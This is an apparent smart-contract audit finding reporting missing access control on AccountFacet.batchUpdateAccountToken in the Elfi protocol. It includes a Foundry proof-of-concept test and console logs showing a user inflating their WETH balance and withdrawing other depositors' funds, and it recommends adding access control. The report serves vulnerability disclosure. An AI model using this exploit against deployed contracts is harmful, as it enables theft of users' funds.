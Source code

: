 Magic Black Crane

High

# AccountFacet.batchUpdateAccountToken function is missing access control

## Summary

The `AccountFacet.batchUpdateAccountToken()` function can be called by anyone to increase their account token balance at no cost, allowing them to withdraw funds and drain the Diamond contract.

## Vulnerability Detail

The `AccountFacet` implements the function `batchUpdateAccountToken()`:
```solidity
function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
    AddressUtils.validEmpty(params.account);
    AssetsProcess.updateAccountToken(params);
}
```

However, this function can be called by any user allowing them to increase their account token balance at no cost. For example in the POC below, we can see how:

- user2 deposits 1e18 WETH.
- user1 deposits 1e18 WETH.
- user1 calls `batchUpdateAccountToken()` increasing its WETH balance by 1e18.
- user1 then creates a withdraw request of 2e18 WETH.
- The withdraw is executed and user1 has received 2e18.
- This can be done with any asset to drain the Diamond contract.

POC:
```solidity
function test_1() public {
    console.log(StdStyle.yellow("\n\ntest_1()"));
    console.log(StdStyle.yellow("__________________________\n"));

    deal(address(contract_WETH), user1, 1e18);
    deal(address(contract_WETH), user2, 1e18);

    vm.startPrank(user2, user2);
    console.log(StdStyle.red("contract_WETH.balanceOf(user2) -> %s"), contract_WETH.balanceOf(user2));
    console.log(StdStyle.yellow("\nUSER2(%s) calls < contract_WETH.approve(contract_Diamond, 1e18) >"), user2);
    contract_WETH.approve(address(contract_Diamond), 1e18);
    console.log(StdStyle.yellow("\nUSER2(%s) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >"), user2);
    AccountFacet(payable(address(contract_Diamond))).deposit(address(contract_WETH), 1e18);
    console.log(StdStyle.red("contract_WETH.balanceOf(user2) -> %s"), contract_WETH.balanceOf(user2));
    vm.stopPrank();

    vm.startPrank(user1, user1);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));
    console.log(StdStyle.yellow("\nUSER1(%s) calls < contract_WETH.approve(contract_Diamond, 1e18) >"), user1);
    contract_WETH.approve(address(contract_Diamond), 1e18);
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).deposit(address(contract_WETH), 1e18);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));

    _consoleLogAccInfo(user1);

    AssetsProcess.UpdateAccountTokenParams memory _params;
    _params.account = user1;
    address[] memory _tokens = new address[](1);
    _tokens[0] = address(contract_WETH);
    int256[] memory _changedTokenAmounts = new int256[](1);
    _changedTokenAmounts[0] = int256(1e18);
    _params.tokens = _tokens;
    _params.changedTokenAmounts = _changedTokenAmounts;
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).batchUpdateAccountToken(_params) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).batchUpdateAccountToken(_params);

    _consoleLogAccInfo(user1);

    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).createWithdrawRequest(address(contract_WETH), 2e18) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).createWithdrawRequest(address(contract_WETH), 2e18);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));
    vm.stopPrank();

    vm.startPrank(owner, owner);
    // function executeWithdraw(uint256 requestId, OracleProcess.OracleParam[] calldata oracles)
    OracleProcess.OracleParam[] memory _oracles = new OracleProcess.OracleParam[](1);
    _oracles[0].token = address(contract_WETH);
    _oracles[0].targetToken = address(0);
    _oracles[0].minPrice = int256(3600e8);
    _oracles[0].maxPrice = int256(3600e8);
    console.log(StdStyle.yellow("\nUSER1(%s) calls < AccountFacet(payable(address(contract_Diamond))).executeWithdraw(1112, _oracles) >"), user1);
    AccountFacet(payable(address(contract_Diamond))).executeWithdraw(1112, _oracles);
    console.log(StdStyle.red("contract_WETH.balanceOf(user1) -> %s"), contract_WETH.balanceOf(user1));

    _consoleLogAccInfo(user1);
    vm.stopPrank();
}
```

Console logs:
```solidity
test_1()
  __________________________

  contract_WETH.balanceOf(user2) -> 1000000000000000000
  
USER2(0x88C0e901bd1fd1a77BdA342f0d2210fDC71Cef6B) calls < contract_WETH.approve(contract_Diamond, 1e18) >
  
USER2(0x88C0e901bd1fd1a77BdA342f0d2210fDC71Cef6B) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >
  contract_WETH.balanceOf(user2) -> 0
  contract_WETH.balanceOf(user1) -> 1000000000000000000
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < contract_WETH.approve(contract_Diamond, 1e18) >
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < AccountFacet(payable(address(contract_Diamond))).deposit(contract_WETH, 1e18) >
  contract_WETH.balanceOf(user1) -> 0
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < AccountFacet(payable(address(contract_Diamond))).batchUpdateAccountToken(_params) >
  
  contract_WETH.balanceOf(user1) -> 0
  
USER1(0xE6b3367318C5e11a6eED3Cd0D850eC06A02E9b90) calls < AccountFacet(payable(address(contract_Diamond))).createWithdrawRequest(address(contract_WETH), 2e18) >
  contract_WETH.balanceOf(user1) -> 0
  
OWNER(0xd9A284367b6D3e25A91c91b5A430AF2593886EB9) calls < AccountFacet(payable(address(contract_Diamond))).executeWithdraw(1112, _oracles) >
  contract_WETH.balanceOf(user1) -> 2000000000000000000
```

## Impact

High, as the `Diamond` contract can be totally drained.

## Code Snippet

- [AccountFacet.sol#L68-L71](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68-L71)

## Tool used

Manual Review

## Recommendation

Consider removing the `AccountFacet.batchUpdateAccountToken()` function or implementing some sort of access control.
